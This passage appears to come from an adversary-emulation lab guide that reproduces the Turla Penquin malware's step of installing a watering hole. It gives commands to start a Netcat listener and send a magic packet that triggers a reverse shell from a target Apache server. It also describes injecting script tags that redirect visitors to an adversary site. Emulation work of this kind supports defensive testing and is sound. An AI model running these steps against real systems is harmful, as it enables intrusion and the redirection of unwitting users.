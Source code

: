 ### :microscope: Cited Intelligence

* <https://www.leonardo.com/documents/20142/10868623/Malware+Technical+Insight+_Turla+%E2%80%9CPenquin_x64%E2%80%9D.pdf>
* <https://media.kasperskycontenthub.com/wp-content/uploads/sites/43/2018/03/07180251/Penquins_Moonlit_Maze_PDF_eng.pdf>
* <https://securelist.com/the-penquin-turla-2/67962/>
* <https://www.youtube.com/watch?v=JXsjRUxx47E&t=647s>
* <https://lab52.io/blog/looking-for-penquins-in-the-wild/>

<br>

## Step 10 - Installation of Watering Hole

:microphone: `Voice Track:`

Step 10 emulates Turla sending a magic packet to the Apache server, on which
the sniffer component of Penquin reads the magic packet, parses the packet
for the IP address to connect to, and triggers the establishment of a reverse
shell.

First, a few discovery commands are sent through the established reverse shell.
Aditional HTML is then appended to the webpage previously edited by Adalwolfa,
containing script tags that load another simple JavaScript file hosted by the
adversary's malicious site, anto-int[.]com, that redirects users who browse to `http://kagarov/index.html` to
the adversary's malicious site instead, thus completing the installation of the
watering hole.

---

### :biohazard: Procedures

* :arrow_right: From your Kali C2 server terminal, open a new terminal tab using Ctrl+Shift+T. Recommended: rename the new tab to `Penquin NC`

* In the new tab, set up a Netcat listener for Penquin's reverse shell to connect to:

```bash
nc -lvvp 8081
```

* Right click and split the window horizontally. Run the following commands to send the magic packet to the Apache server using
the `sendPacket.py` utility.

```bash
cd /opt/day1/turla
sudo -E python3 Resources/Penquin/sendPacket.py --handler_ip 176.59.15.33 --handler_port 8081 --target_ip 10.20.10.23 --target_port 8080 --payload_type base64
```

* Wait a few seconds and then check the Netcat tab (`Penquin NC`). The Netcat prompt should report a successful connection.

* In the terminal where the reverse shell has connected to the Netcat listener, paste the following command to add the
 watering hole redirection to index.html:
